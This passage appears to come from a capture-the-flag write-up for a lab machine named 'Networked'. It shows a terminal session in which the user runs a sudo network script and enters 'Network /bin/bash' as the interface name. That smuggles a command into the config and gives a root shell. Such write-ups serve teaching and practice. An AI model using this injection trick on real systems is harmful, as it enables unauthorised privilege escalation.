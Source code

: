 After reading that article you should have a pretty good idea of what to do
```
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
interface NAME:
Network /bin/bash
interface PROXY_METHOD:
test
interface BROWSER_ONLY:
test
interface BOOTPROTO:
test
[root@networked network-scripts]# whoami
root
```
Now that we are root we can read the <b>root.txt</b> file.
<br><br><br><br>
